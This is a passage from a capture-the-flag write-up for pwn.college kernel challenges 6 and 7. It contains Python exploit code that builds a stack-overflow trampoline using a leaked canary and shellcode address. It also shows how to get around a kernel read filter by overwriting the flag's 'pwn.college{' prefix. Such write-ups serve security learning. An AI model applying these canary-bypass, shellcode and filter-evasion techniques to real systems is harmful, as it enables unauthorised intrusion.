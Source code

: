 ```python
    load_program(r1, shellcode_program, shellcode)

    input("Press enter to load trampoline..")
    shellcode_addr = sp_leak - 0x2fa8
    trampoline_program = 15
    trampoline = b'A' * pad_size 
    trampoline += p64(canary) + p64(shellcode_addr) * 2
    trampoline += b'B' * (MAX_YANCODE_SIZE - len(trampoline))
    load_program(r1, trampoline_program, trampoline)

    input("Press enter to jump to shellcode..")
    quit(r1)
    
    p.interactive()
```

## Challenge 7

Similar to challenge 6, but now `sys_read` kernel handler is adjusted. After some RE, I've found out this handler actually copies the content of the underlying read to some temporary kernel buffer, and performs the following check:

```c
if (((c - 0x7b) & 0x7d) == 0)
{
    state->signal = -42;
}
```

In other words, if the content of the underlying read contains the characters `'{' , '}'`, as the flag does, the read is stopped right away. If we can adjust the `struct file` underlying pos, we can bypass this. This should require kernel addresses manipulation though. \
Another easier way, is to simply write `A * 12` to the flag, overwriting `pwn.college{` string. We can set the exact bytes to be read as the flag's exact length, in order to not reach the ending `}`. \
I've only needed to adapt `gen_yancode`, and the exploit have worked in a similar manner to level 6:

```python
def gen_yancode(adjusted=False):
    flag_path = b'/flag\x00'  
    flag_addr = 0
    flag_content = b'A' * 12  # Overwrite "pwn.college{"
    flag_content_addr = flag_addr + len(flag_path)
    precise_flag_length = 42
    max_size = 0x80
    out_file_path = b'/home/hacker/OUT\x00'
    out_file_addr = max_size
    
    with open(out_file_path[:-1], 'wb') as f:
        pass

    yancode = b''
    # Store "/flag\x00" and its preceding content in mem[0]
    yancode += store_string(addr=flag_addr, string=flag_path + flag_content)
    # open("/flag", O_RDWR, 0)
    yancode += open_file(file_addr=flag_addr, flags=2)
    # Overwrite the flag's header
    yancode += write_from_memory(fd=Regs.a, offset=flag_content_addr, count=len(flag_content))

    yancode += write_register(Regs.a, 0)
    # Read the precise amount of the flag's length
    yancode += read_to_memory(fd=Regs.a, offset=flag_content_addr, count=precise_flag_length, adjusted=adjusted)

```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html